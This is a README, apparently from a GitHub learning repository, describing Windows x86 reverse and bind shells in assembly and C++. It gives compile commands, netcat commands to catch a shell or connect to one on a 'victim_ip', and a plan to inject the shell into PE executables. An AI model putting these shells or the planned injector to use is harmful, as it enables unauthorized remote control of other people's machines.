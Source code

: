 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address

\[\*\] Soon, coding a lil program :
  * Open exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close Exe
  
### Architecture

Win32 plateform

- XP 
- Win 7
- Win 10 - Windows Defender Detects it's bad for himself

### Compilation 

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
## :two: Exploit

### Reverse Tcp

```
$netcat -v -l -p 4444
```

### Reverse Bind Tcp

```
$netcat -v victim_ip 4444
```

### Reverse Tcp With CPP 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


